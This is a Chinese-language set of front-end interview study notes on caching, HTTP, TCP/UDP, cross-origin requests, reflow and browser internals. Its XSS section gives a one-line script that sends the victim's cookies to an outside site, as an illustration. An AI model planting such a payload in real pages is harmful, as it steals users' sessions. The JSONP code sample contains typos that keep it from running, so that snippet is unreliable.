 # 综合知识

## 一、缓存相关问题

### 1、相关概念

#### 缓存

当没有CDN时，客户端访问网站，先检查本地缓存是否过期，如果过期，则由网站返回新的数据，若没有过期，直接使用缓存资源（200）。

#### 强缓存

强缓存，指的是使用本地的缓存。

#### 协商缓存

协商缓存，是指本地的缓存到期后，与服务器确认缓存是否真正过期，过期返回新的资源（200），没有过期（304资源仍有效）

#### CDN缓存

客户端浏览器先检查是否有本地缓存是否过期：
- 如果过期，则向CDN边缘节点发起请求，CDN边缘节点会检测用户请求数据的缓存是否过期，
- 如果没有过期，则直接响应用户请求，此时一个完成http请求结束；
- 如果数据已经过期，那么CDN还需要向源站发出回源请求（back to the source request）,来拉取最新的数据。

#### CDN缓存策略

一般通过http响应头中的 `Cache-control: max-age` 的字段来设置CDN边缘节点数据缓存时间。

## 二、自定义重写 Select


## 三、正则表达式

#### 常用字符

|符号       |符号意义               |
|-----------|----------------------|
|/...../    |用来表示一个正则匹配表达式。|
|\          |转义字符。|
|/^a/       |表示当第一个字符为a时才能匹配。|
|/t$/       |最后一个字符为t才会匹配。|
|*          |一个字符出现任意次，即匹配。|
|？         |匹配一个字符0次或者1次。|
|{n}        |匹配前边的字符发生n次。例如，/e{3}/ 就会匹配 eee 及>3e 的字符串。|
|{n,m}      |最少n次，最多m次|
|[abcd]     |字符集和，匹配方括号中的任意字符|
|[^abcd]    |匹配不存在方括号中的任意字符|
|\d         |匹配一个数字|
|\D         |匹配一个非数字|


## 四、前后端交互相关

### 1、什么是RESTful接口

`RESTful接口`是一种软件架构设计风格，主要用于前后端的交互，它的重要一个原则是前端的请求是没有状态的，无状态的请求可以由任何服务器回答。
RESTful提倡使用标准的 HTTP 方法，GET对应取、PUT对应修改、POST新增 和 DELETE对应删除。

### 2、TCP和UDP的区别

#### TCP：

- 面向连接，进行数据传输前需要连接。因此连接是点对点的。
- TCP提供可靠的服务。也就是说，通过TCP连接传送的数据，无差错，不丢失，不重复，且按序到达。
    > （Tcp通过校验和，重传控制，序号标识，滑动窗口、确认应答实现可靠传输。如丢包时的重发控制，还可以对次序乱掉的分包进行顺序控制。）
- TCP对系统资源要求较多。

#### UDP：

- 无连接的，进行传输前不需要建立连接。可以是一对一，一对多，多对一和多对多。
- 尽最大努力进行交付，但是不保证交付的可靠性。例如视频网站传输视频。
- UDP具有较好的实时性，工作效率比TCP高，适用于对高速传输和实时性有较高的通信或广播通信。
- UDP对系统资源要求较少。

### 3、HTTP状态码

|代码   |含义           |
|-------|---------------|
|1      |消息           |
|2      |成功           |
|3      |重定向         |
|4      |请求错误       |
|400    |Bad Request    |
|401    |Unauthorized   |
|402    |PaymentRequired|
|403    |Forbidden      |
|404    |Not Found      |
|5      |服务器错误     |
|500    |Internal Server Error|

### 4、浏览器缓存机制


### 5、css、js加载会不会阻塞DOM解析和绘制

CSS不会阻塞DOM的解析，但是会阻塞DOM的绘制。

CSS会阻塞之后的JS的运行。

### 6、XSS和CSRF

#### XSS 

`XSS` 是跨站脚本攻击。
例如：<script>window.open(www.yixiuge.com?content=document.cookie);</script>。也可以写成图片，iframe的形式

### CSRF

`CSRF` 是跨站请求伪造。
攻击者盗用了用户的身份，以用户的名义发送恶意请求，包括：以用户的名义发送邮件，发消息，盗取用户账号等。

### 7、跨域问题场景【细看】

#### 跨域详解

- Ajax直接请求普通文件存在跨域无权限访问的问题，甭管你是静态页面、动态网页、web服务、WCF，只要是跨域请求，一律不准。
- Web页面上调用js文件时则不受是否跨域的影响（不仅如此，我们还发现凡是拥有”src”这个属性的标签都拥有跨域的能力，比如<script>、<img>、<iframe>）


#### DOM同源策略

禁止对不同源页面DOM进行操作, 同源指，域名、协议、端口
如果非同源，js脚本执行时浏览器会报错，提示拒绝访问。（可以下载，但是不可以有数据操作）

#### 跨域问题解决

- [jsonp](../3-javascript/3.1-jquery.md#一、jsonp)

原理：通过动态创建script标签,然后利用src属性进行跨域，设置一个回调函数。

```javascript
// 定义一个fun函数
function fun(fata) {
    console.log(data);
};
// 创建一个脚本，并且告诉后端回调函数名叫fun
var body = document.getElementsByTagName('body')[0];
var script = document.gerElement('script');
script.type = 'text/javasctipt';
script.src = 'demo.js?callback=fun';
body.appendChild(script);
```

> jsonp不能发post请求，只能发get请求。因为它是调用回调函数的方式，在服务器看来只是请求了一个资源。

### 8、重绘 && 重排

一个页面由两部分组成：

- DOM：描述该页面的结构
- render：描述 DOM 节点 (nodes) 在页面上如何呈现

#### 重绘 Repaint

当 DOM 元素的属性发生变化 (如 color) 时, 浏览器会通知 render 重新描绘相应的元素, 此过程称为 repaint。

#### 重排 Reflow

如果该次变化涉及元素布局 (如 width), 浏览器则抛弃原有属性, 重新计算并把结果传递给 render 以重新描绘页面元素, 此过程称为 reflow。

> 重排必定会引发重绘，但重绘不一定会引发重排。   
> 重排对性能的影响要大于重绘。

#### 浏览器解析顺序

1. 解析HTML代码并生成一个 DOM 树。
2. 解析CSS文件，顺序为：浏览器默认样式->自定义样式->页面内的样式。
3. 生成一个渲染树（render tree）。这个渲染树和DOM树的不同之处在于，它是受样式影响的。它不包括那些不可见的节点。
4. 当渲染树生成之后，浏览器就会在屏幕上“画”出所有渲染树中的节点。

#### 优化方法
（1）直接改变元素的className
（2）display：none；先设置元素为display：none；然后进行页面布局等操作；设置完成后将元素设置为display：block；这样的话就只引发两次重绘和重排；
（3）不要经常访问浏览器的flush队列属性；如果一定要访问，可以利用缓存。将访问的值存储起来，接下来使用就不会再引发回流；
（4）使用cloneNode(true or false) 和 replaceChild 技术，引发一次回流和重绘；
（5）将需要多次重排的元素，position属性设为absolute或fixed，元素脱离了文档流，它的变化不会影响到其他元素；
（6）如果需要创建多个DOM节点，可以使用DocumentFragment创建完后一次性的加入document；

## 五、浏览器相关

### 1、浏览器内核

|内核名称   |代表浏览器             |
|-----------|----------------------|
|Trident    |Internet Explore、搜狗 |
|Gecko      |Mozilla、Firefox       |
|WebKit     |Safari、Chrome         |
|Presto     |Opera                  |

## 六、浏览器输入URL敲击回车后发生了什么？

> 这个问题可以理解成浏览器是怎么访问一个网站了。

分别有以下几个步骤：

1. 浏览器解析URL

一个URL通常包括以下几个参数：
- 传输协议
- 域名
- 端口
- 虚拟目录
- 文件名
- 参数
- 锚

浏览器解析URL，主要是解析出需要访问的服务器的域名。

2. DNS解析

DNS解析就是域名对应IP地址的查询。

浏览器DNS缓存（2-30分钟） > 系统DNS缓存(host文件) > 路由器DNS缓存 > 查询ISP DNS缓存(网络供应商) > 递归查询(从根域名服务器到顶级域名服务器再到极限域名服务器依次搜索哦对应目标域名的IP。)

3. 浏览器与网站建立TCP连接（三次握手）

> 三次握手，四次挥手

4. 请求和传输数据

> GET、POST等进行数据传输

5. 浏览器渲染页面